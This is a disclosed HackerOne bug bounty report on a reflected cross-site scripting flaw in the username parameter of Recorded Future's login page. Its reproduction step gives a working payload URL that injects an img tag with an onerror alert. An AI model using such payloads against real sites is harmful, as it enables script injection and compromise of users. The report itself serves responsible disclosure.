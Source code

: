 # [https://app.recordedfuture.com] - Reflected XSS via username parameter 

## Report Details
- **Report ID**: 1201134
- **URL**: https://hackerone.com/reports/1201134
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-05-18T15:27:09.503Z
- **Disclosed**: 2022-01-21T13:51:14.499Z

## Reporter
- **Username**: bombon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: recorded-future

## Vulnerability Information
## Steps To Reproduce:

```
1-> Visit https://app.recordedfuture.com/live/login/?reset=x&username=xss%22%3E%3Cimg+src=x+onerror=alert(document.domain)%3E
```

## Impact

An attacker could be able to Inject Malicious Javascript to compromise users

## Attachments
No attachments
